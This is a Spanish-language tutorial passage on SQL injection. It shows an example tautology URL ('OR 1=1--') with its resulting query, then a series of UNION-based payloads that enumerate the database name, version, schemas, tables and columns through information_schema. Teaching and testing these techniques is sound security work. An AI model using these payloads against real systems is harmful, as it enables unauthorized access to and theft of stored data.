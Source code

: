 Yendo más allá, un atacante puede hacer que la aplicación muestre todos los productos de cualquier categoría, incluidas las categorías que no conoce:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Esto da como resultado la consulta SQL:

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

La consulta modificada devolverá todos los artículos en los que la categoría sea Regalos o 1 sea igual a 1. Como siempre es verdadero, la consulta devolverá todos los elementos. `1=1`

.............................................................................................................................................................

.............................................................................................................................................................

Claro, ese es un ataque muy simple, pero se pueden hacer cosas mas complejas como listar la BBDD, es decir, ver que BBDD hay y su nombre, las tablas que tiene, las columnas...

Por ejemplo:

Para listar la BBDD:

```
' union select database()-- -
```

En caso de que huviese mas columnas, por ejemplo 4 y la cuarta fuese la que interpreta:

```
' union select 1,2,3,database()-- - 
```

Para ver la version de la BBDD:

```
' union select version()-- -
```

Para listar otras BBDD-s existentes:

```
' union select schema_name from information_schema.schemata-- -
```

Ver las tablas de otra base de datos que hemos encontrado:

```
' union select table_name from information_schema.tables where table_schema="{nombre de la BBDD}"-- -
```

Ver las columnas de una tabla de esa otra BBDD:

```
' union select column_name from information_schema.columns where table_schema="{nombre de la BBDD}" and table_name="{nombre de la tabla}"-- -
```
